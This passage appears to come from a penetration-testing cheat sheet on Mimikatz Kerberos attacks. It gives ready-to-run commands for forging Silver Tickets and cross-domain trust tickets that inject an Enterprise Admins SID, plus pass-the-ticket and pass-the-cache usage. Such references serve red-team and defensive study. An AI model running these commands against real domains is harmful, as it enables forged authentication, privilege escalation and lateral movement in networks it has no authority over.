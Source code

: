 #### Silver Ticket Creation <a href="#silver-ticket-creation" id="silver-ticket-creation"></a>

Silver Tickets grant access to specific services. Key command and parameters:

* Command: Similar to Golden Ticket but targets specific services.
* Parameters:
  * `/service`: The service to target (e.g., cifs, http).
  * Other parameters similar to Golden Ticket.

Example:

{% code overflow="wrap" %}
```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```
{% endcode %}

#### Trust Ticket Creation <a href="#trust-ticket-creation" id="trust-ticket-creation"></a>

Trust Tickets are used for accessing resources across domains by leveraging trust relationships. Key command and parameters:

* Command: Similar to Golden Ticket but for trust relationships.
* Parameters:
  * `/target`: The target domain's FQDN.
  * `/rc4`: The NTLM hash for the trust account.

Example:

{% code overflow="wrap" %}
```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```
{% endcode %}

#### Additional Kerberos Commands <a href="#additional-kerberos-commands" id="additional-kerberos-commands"></a>

* **Listing Tickets**:
  * Command: `kerberos::list`
  * Lists all Kerberos tickets for the current user session.
* **Pass the Cache**:
  * Command: `kerberos::ptc`
  * Injects Kerberos tickets from cache files.
  * Example: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`
* **Pass the Ticket**:
  * Command: `kerberos::ptt`
  * Allows using a Kerberos ticket in another session.
  * Example: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`
* **Purge Tickets**:
  * Command: `kerberos::purge`
  * Clears all Kerberos tickets from the session.
  * Useful before using ticket manipulation commands to avoid conflicts.
